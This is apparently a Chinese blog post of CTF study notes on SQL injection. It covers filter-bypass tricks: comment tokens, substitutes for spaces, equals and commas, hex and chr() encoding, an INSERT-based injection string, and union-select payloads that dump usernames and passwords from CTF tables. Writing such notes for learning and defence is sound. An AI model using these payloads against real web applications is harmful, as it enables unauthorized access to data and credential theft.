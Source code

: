 ```yaml
---
title: sql注入技巧
date: '2022/1/23 23:15:01'
categories:
  - - web安全
    - inject
    - sql
description: sql注入的一些绕过技巧
abbrlink: 1c713f30
tags:
---
```



# sql注入技巧

## 1 绕过检查：
### 1.1 注释：
单个的：
```sql
#
%23
-- （两个-加一个空格）
--+
;%00
```
分开两个的：
```sql
/*
*/
```

### 1.2 等号：
```sql
a=a
a like a
a regexp a	(正则)
!(a<>a)
```
### 1.3 or：
```sql
||
```	
### 1.4 空格：
```sql
/**/
and(1=0)		//利用小括号
%09 %0a %0c %0b %0d 	//空白字符
```

> 过滤空格之后检测，可以采用```?id=(1)=(2)```的方法

### 1.5 无法传入字符串：
转换成16进制然后前面加0x

### 1.6 单引号绕过
方法1. 使用单引号的编码%20
方法2. 利用前一个的单引号闭合后面的



## 2 跳过第一个数据的方法：
```sql
limit 1 offset 1
```

> ```limit``` 与 ```offset```：从下标0开始
> ```offset X```   是跳过X个数据
> ```limit Y```    是选取Y个数据
> ```limit  X,Y``` 中X表示跳过X个数据，读取Y个数据

当```limit```后面跟两个参数的时候，第一个数表示要跳过的数量，后一位表示要取的数量,
例如```select* from article LIMIT 1,3``` 就是跳过1条数据,从第2条数据开始取，取3条数据，也就是取2,3,4三条数据

当 ```limit```后面跟一个参数的时候，该参数表示要取的数据的数量
例如```select* from article LIMIT 3```  表示直接取前三条数据，类似sqlserver里的```top```语法。

当 ```limit```和```offset```组合使用的时候，```limit```后面只能有一个参数，表示要取的的数量,```offset```表示要跳过的数量 。
例如```select * from article LIMIT 3 OFFSET 1 ```表示跳过1条数据,从第2条数据开始取，取3条数据，也就是取2,3,4三条数据



## 3 插入函数insert()的相关

> 插入函数格式

```insert(a,'a',a,'a')```  插入一条（一条里面4个变量）
```insert(a,'a',a,'a'),(b,'b',b,'b')```  插入两条（一条里面4个变量）
比如说构造```q'),('a','a',database(),'a')%23```，进行插入两条数据的sql注入
或者放弃最后一个变量，构造```q'),('a',database(),'```，利用第二个可控变量进行sql注入


## 4 当逗号","被过滤后
(1)一般时间延迟盲注都是用 ```if(exp1,exp2,epx3)``` 
逗号被过滤后可以使用 ```select case when (条件) then 代码1 else 代码 2 end```;
(2)在 exp1 中要用到 ```substr()```来进行剪切，这个函数 ```substr(str,1,1)``` 又是存在 ```,``` , 
于是这里又用 ```substr (str) from 1 for 1``` 来绕过```,```的限制


## 5 遇到两张表都有名字叫id，password的字段时
例如：
数据库叫```geek```；在```geek```下有两张表，分别叫```geekuser```,```l0ve1ysq1```
当想查询```l0ve1ysq1```中的```id```，```password```的字段时，
使用```union select 1,2,group_concat(char(58,58,58),id,username,password) from geek.l0ve1ysq1```

## 6 php中preg_match()函数过滤掉字母等东西时
使用```char()```函数绕过，比如说 ```(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103))``` 是 ```/flagg ```

## 7 如果当前数据库不是flag所在的数据库，最后得到字段名之后查找应该变成
```union select 1,2,group_concat(char(58,58,58),id,username,password) from ctf.Flag```